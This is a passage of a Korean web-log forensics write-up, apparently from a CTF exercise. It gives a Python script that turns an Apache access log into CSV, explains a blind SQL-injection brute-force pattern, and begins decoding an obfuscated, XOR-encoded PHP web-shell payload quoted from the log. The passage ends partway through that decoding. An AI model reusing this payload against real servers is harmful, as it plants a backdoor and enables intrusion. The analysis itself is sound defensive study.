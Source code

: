                 if match:
                    ip, login_name, auth_user, date_time, request, status, size, referer, user_agent = match.groups()
                    writer.writerow([ip, login_name, auth_user, date_time, request, status, size, referer, user_agent])

        print(f"CSV 파일로 저장되었습니다: {output_file}")

    # 텍스트 파일과 출력 CSV 파일 경로 설정
    input_file = 'access.log'  # 로그 텍스트 파일 경로
    output_file = 'web_log.csv'  # 결과로 저장할 CSV 파일 경로

    # 함수 실행
    convert_log_to_csv(input_file, output_file)
    ```

#### 분석 결과

1. Brute Force-like

   - 변환을 하고 파일을 둘러보면 블라인드 sql인젝션을 기반으로 한 brute force-like 공격이 발생했다는 것을 볼 수 있다

    **왜 brute force-like 공격인가?**

    - 일반 적인 brute force 공격이라면 모든 값을 대입하여 **직접** 값을 얻어내는 방식이다

    - 여기서는 하나씩 입력하여 **참/거짓**으로 구분하고 있다

    - 이러한 방법은 **블라인드**로 진행된다는 점에서 일반적인 brute force보단 **sql인젝션을 기반으로 한 brute force-like** 공격이라 할 수 있다

2. 의심가는 이상한 코드
   
   ```
   /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E
   ```

   로그를 보면 이런 코드가 있다.
   
   공격에 사용한 의심이 되니 한번 분석을 해보자

   **분석**

    위 코드는 url 인코딩되어 있어 디코딩을 해보면

    ```php
    <?php 
    function m($l, $T = 0) {
        $K = date('Y-m-d');  // 현재 날짜를 'Y-m-d' 형식으로 저장
        $_ = strlen($l);     // 입력 문자열 $l의 길이 저장
        $__ = strlen($K);    // 날짜 문자열 $K의 길이 저장
        for ($i = 0; $i < $_; $i++) { // $l의 각 문자에 대해 반복
            for ($j = 0; $j < $__; $j++) { // 날짜 $K의 각 문자에 대해 반복
                if ($T) {
                    $l[$i] = $K[$j] ^ $l[$i]; // XOR 연산 (복호화)
                } else {
                    $l[$i] = $l[$i] ^ $K[$j]; // XOR 연산 (암호화)
                }
            }
        }
        return $l;
    }
